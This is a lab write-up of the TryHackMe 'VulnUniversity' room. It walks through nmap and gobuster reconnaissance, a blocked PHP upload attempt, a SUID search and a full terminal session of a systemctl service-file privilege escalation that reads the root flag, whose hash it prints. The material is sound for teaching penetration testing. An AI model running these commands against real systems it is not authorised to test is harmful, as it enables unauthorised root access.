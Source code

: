 # VulnUniversity
#### Active Recon, Web App Attacks and Privilege Escalation
#### [Room Link](1)

## Tasks 1 & 2
1. Deploy the Machine and connect to our network
 Pretty easy start, make sure your Kali VM is working, initiate VPN connection, deploy the machine, finally ping the [machineIP] to make sure you can reach it.  
2. Enumeration
  Run `nmap -sV -oN nmap_enum.txt 10.10.213.40` and get
  ```
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 10:51 EDT
Nmap scan report for 10.10.213.40
Host is up (0.13s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.34 seconds
  ```
  2. How many ports open
    6 ports
  3. What version of the squid proxy is running on the machine?
    `Squid http proxy 3.5.12`
  4. How many ports will nmap scan if the flag -p-400 was used?
    400, the -p- scan 1-65535 by starting with -p-400 it would start with 1 and scan up
    to port 400.
  5. Using the nmap flag -n what will it not resolve?
    Resorting back to the nmap manual (which you can access using `man nmap`) you can
    look down a bit and find that -n means that nmap will not resolve DNS.
  6. What is the most likely operating system this machine is running?
    Based on the nmap scan we preformed it is most likely Ubuntu Linux because of the Apache service info gathered.
    ```
    3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
    Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    ```
  7. What port is the web server running on?
    Also looking at the above scan portion we see that http (web protocol) is running
    on port 3333. We can verify by visiting that web with our browser as well.
    ![VulnUniversityWebpage](2)
  8. Recon before all else.
   Try always to be running things in the background while you manually explore. If you arent sure what to run research the tools available and see what else could be used.


## Task 3
  1. Install and Setup GoBuster on your machine
    The Go install is one of the harder parts if you dont completely understand what is
    happening. What I do since I setup my VMs so often is this GoLang install script
    [https://github.com/canha/golang-tools-install-script](3)
    After installing that successfully you will be able to just run `go get github.com/OJ/gobuster` and it will install! You can test it by typing `gobuster` and seeing the help
    screen.
  2. What is the directory that has an upload form page?
    We can go ahead and run the gobuster command they gave us with `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.213.40:3333`
    with that running we can get some directories to manually check out while it runs more.
    ```
    ===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.213.40:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/18 11:16:09 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
    ```
    /images:
    ![imagesdirectory](4)
    /css, /js,/fonts,:
    Just some website files that seem default for now
    /internal:
    ![internaldirectory](5)

    We see that is the directory we are probably looking for.

## Task 4 - Compromise the webserver
  1.  What common extension seems to be blocked?
  We can go back to a common resource in [SecLists](6) to get test files for uploading.
  Going into SecLists/Payloads/PHPInfo we have plenty of file formats. Since we do have the knowledge of an easy compromise lets try a simple .php file(phpinfo.php).
  Unfortunately we get an extension not allowed.
  ![extensionnotallowed](7)

  2.get the webshell and search for suid binarys (thigns that run as root and do things as root when you shouldnt) `www-data@vulnuniversity:/home/bill$ find / -perm -4000 2> /dev/null | xargs ls -lash`

  Look for shell using service we can install using `systemctl`
  Use a resource called [GTFOBins](8) to find something that will help.
  Going down to systemctl section we need to select SUID binary and edit it a little.
  After runnning though it I got
  ```
  ww-data@vulnuniversity:/tmp$ ls -la
  ls -la
  total 40
  drwxrwxrwt  8 root     root     4096 Mar 19 10:40 .
  drwxr-xr-x 23 root     root     4096 Jul 31  2019 ..
  drwxrwxrwt  2 root     root     4096 Mar 19 10:19 .ICE-unix
  drwxrwxrwt  2 root     root     4096 Mar 19 10:19 .Test-unix
  drwxrwxrwt  2 root     root     4096 Mar 19 10:19 .X11-unix
  drwxrwxrwt  2 root     root     4096 Mar 19 10:19 .XIM-unix
  drwxrwxrwt  2 root     root     4096 Mar 19 10:19 .font-unix
  -rw-rw-rw-  1 www-data www-data  100 Mar 19 10:32 Tiger.service
  -rw-r--r--  1 root     root       39 Mar 19 10:36 output
  drwx------  3 root     root     4096 Mar 19 10:19 systemd-private-f39aca9dc1aa4efebcf9be890327b70a-systemd-timesyncd.service-iXKVrf
  www-data@vulnuniversity:/tmp$ rm Tiger.service
  rm Tiger.service
  www-data@vulnuniversity:/tmp$ rm output
  rm output
  rm: remove write-protected regular file 'output'? yes
  yes
  rm: cannot remove 'output': Operation not permitted
  www-data@vulnuniversity:/tmp$ ls
  ls
  output
  systemd-private-f39aca9dc1aa4efebcf9be890327b70a-systemd-timesyncd.service-iXKVrf
  www-data@vulnuniversity:/tmp$ TF=$(mktemp).service
  TF=$(mktemp).service
  www-data@vulnuniversity:/tmp$ echo '[Service]
  echo '[Service]
  > Type=oneshot
  Type=oneshot
  > ExecStart=/bin/sh -c "ls -la > /tmp/output"    
  ExecStart=/bin/sh -c "ls -la > /tmp/output"
  > [Install]
  [Install]
  > WantedBy=multi-user.target' > $TF
  WantedBy=multi-user.target' > $TF
  www-data@vulnuniversity:/tmp$ ./systemctl link $TF
  ./systemctl link $TF
  bash: ./systemctl: No such file or directory
  www-data@vulnuniversity:/tmp$ /bin/systemctl link $TF
  /bin/systemctl link $TF
  Created symlink from /etc/systemd/system/tmp.SbPd4NAR8j.service to /tmp/tmp.SbPd4NAR8j.service.
  www-data@vulnuniversity:/tmp$ /bin/systemctl enable $TF
  /bin/systemctl enable $TF
  Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.SbPd4NAR8j.service to /tmp/tmp.SbPd4NAR8j.service.
  www-data@vulnuniversity:/tmp$ cat /tmp/output
  cat /tmp/output
  uid=0(root) gid=0(root) groups=0(root)
  www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $TF
  /bin/systemctl enable --now $TF

  www-data@vulnuniversity:/tmp$ cat output
cat output
uid=0(root) gid=0(root) groups=0(root)
www-data@vulnuniversity:/tmp$ ls  
ls
output
systemd-private-f39aca9dc1aa4efebcf9be890327b70a-systemd-timesyncd.service-iXKVrf
tmp.SbPd4NAR8j
tmp.SbPd4NAR8j.service
www-data@vulnuniversity:/tmp$ cat tmp.sbPd4NAR8j.service
cat tmp.sbPd4NAR8j.service
cat: tmp.sbPd4NAR8j.service: No such file or directory
www-data@vulnuniversity:/tmp$ cat tmp.SbPd4NAR8j
cat tmp.SbPd4NAR8j
www-data@vulnuniversity:/tmp$ cat output
cat output
uid=0(root) gid=0(root) groups=0(root)
www-data@vulnuniversity:/tmp$ priv=$(mktemp).service            
priv=$(mktemp).service
www-data@vulnuniversity:/tmp$ echo '[Service]
echo '[Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/output"
^[[3~ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/output"
> [Install]
[Install]
> WantedBy=multi-user.target' >$priv            
WantedBy=multi-user.target' >$priv
www-data@vulnuniversity:/tmp$ /bin/systemctl link $priv
/bin/systemctl link $priv
Created symlink from /etc/systemd/system/tmp.FBKnbGuZLP.service to /tmp/tmp.FBKnbGuZLP.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $priv
/bin/systemctl enable --now $priv
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.FBKnbGuZLP.service to /tmp/tmp.FBKnbGuZLP.service.
www-data@vulnuniversity:/tmp$ cat ouput
cat ouput
cat: ouput: No such file or directory
www-data@vulnuniversity:/tmp$ cat output
cat output
a58ff8579f0a9270368d33a9966c7fd5
www-data@vulnuniversity:/tmp$
  ```
USing this modified service file with the enviroment varible workaround we are able to cat out the root flag without having a root shell, however we could setup a reverse
shell back out to out listener and gain persistant access via that.


## Review

For links
[1]: https://tryhackme.com/room/vulnversity
[2]:./resources/vulnuni_web3333.png
[3]:https://github.com/canha/golang-tools-install-script
[4]:./resources/vulnuni_images3333.png
[5]:./resources/vulnuni_internal3333.png
[6]: https://github.com/danielmiessler/SecLists
[7]: ./resource/vulnuni_extnotallowed3333.png
[8]: https://gtfobins.github.io/

